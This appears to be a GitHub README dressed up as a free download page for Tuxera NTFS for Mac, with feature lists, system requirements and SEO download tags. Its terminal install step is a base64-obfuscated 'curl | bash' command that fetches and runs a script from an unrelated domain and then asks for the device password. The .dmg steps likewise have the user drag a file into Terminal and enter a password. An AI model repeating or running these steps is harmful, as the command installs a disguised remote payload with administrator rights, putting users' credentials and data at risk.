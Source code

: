 # Tuxera NTFS for Mac Download

![Tuxera NTFS Screenshot 1](https://fr.keysoff.com/media/wysiwyg/Tuxera_NTFS_for_Mac.jpg)

---

## 📥 Download Tuxera NTFS for macOS

[![⬇️ Download Tuxera NTFS](https://img.shields.io/badge/Download-Tuxera%20NTFS%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Tuxera)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Tuxera NTFS for Mac?

Tuxera NTFS for Mac is a macOS system extension that provides full read and write access to NTFS-formatted drives. Unlike macOS’s built-in NTFS support, which only allows reading, Tuxera NTFS enables seamless file transfer, editing, and disk management on Windows-formatted volumes.

Ideal for users who frequently move files between Windows and Mac systems, Tuxera ensures high-speed data exchange without file corruption or permission errors. It includes smart caching, secure volume handling, and compatibility with Apple Silicon (M1/M2/M3).

Whether you're working with external hard drives, USB flash drives, or Boot Camp partitions, Tuxera NTFS ensures effortless cross-platform compatibility on macOS.

---

![Tuxera NTFS Screenshot 2](https://mac-cdn.softpedia.com/screenshots/Tuxera-NTFS_3.jpg)

---

## ⚙️ Key Features

- 📂 Full NTFS Write Support – Create, edit, move, and delete files on NTFS volumes  
- 🚀 Fast File Transfers – High-performance caching layer for speed and stability  
- 🛠️ Disk Manager Tool – Format and verify drives from within macOS  
- 🔐 Secure Access – File-level permission and ownership control  
- 🔄 Cross-Platform Friendly – Work seamlessly between macOS and Windows  
- 💻 Apple Silicon Support – Works natively on M1, M2, M3 chips  
- 📦 Lightweight Utility – Runs quietly in the background  
- 🧠 Simple Setup – Minimal configuration, auto-detects NTFS drives  

---

## ✅ Suitable For

- Users with NTFS-formatted external drives  
- Windows-to-Mac switchers  
- Developers and system administrators  
- Dual-boot setups with Boot Camp  
- Students and professionals sharing cross-platform drives  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

tuxera ntfs mac, tuxera ntfs, tuxera, mac tuxera ntfs, ntfs tuxera for mac, tuxera disk manager, tuxera for mac, microsoft ntfs by tuxera, download tuxera, download tuxera ntfs, download tuxera ntfs for mac, free tuxera ntfs for mac, microsoft ntfs for mac by tuxera, tuxera ntfs for mac download
